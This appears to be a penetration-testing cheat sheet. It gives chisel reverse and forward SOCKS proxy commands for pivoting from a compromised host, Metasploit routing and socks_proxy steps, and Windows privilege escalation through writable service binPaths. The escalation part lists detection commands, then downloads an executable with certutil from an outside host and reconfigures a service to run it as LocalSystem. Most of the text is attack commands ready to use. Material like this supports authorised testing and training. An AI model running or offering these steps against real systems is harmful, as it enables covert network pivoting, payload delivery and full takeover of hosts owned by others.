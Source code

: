 #### chisel  - Reverse Proxy
* Your Machine  
```
./chisel server -p LISTEN_PORT --reverse &
```

* Compromised Host  
```
./chisel client <TARGET_IP>:<LISTEN_PORT> R:socks &
```

#### chisel - Forward Proxy  
* Compromised Host  
```
./chisel server -p <LISTEN_PORT> --socks5
```

* Your Machine  
```
./chisel client <TARGET_IP>:<LISTEN_PORT> <PROXY_PORT>:socks
```

#### metasploit - proxying 
```
route add <ip>/24 1
route print
use auxiliary/server/socks_proxy
run
```

## Local Privilege Escalation
### binPath - Services
* Detection
```
. .\PowerUp.ps1
Get-ModifiableService -Verbose
```
or
```
Get-ModifiableService -Verbose
wmic service get Name,State,PathName | findstr "Running" | findstr "Program"  
wmic service get Name,State,PathName | findstr "Program"  
icacls <pathname>  
//(F) and (i) (F)
accesschk.exe -wuvc <service_name>
//RW Everyone  
//  SERVICE_CHANGE_CONFIG
sc qc <service_name>
```

* Exploitation - windows
```
certutil -urlcache -f http://10.9.1.137:803/ok.exe ok.exe  
sc config <name_ service> binPath="C:\Users\files\ok.exe" obj= LocalSystem  
sc stop <service_name>  
sc query <service_name>  
sc start <service_name>  
```
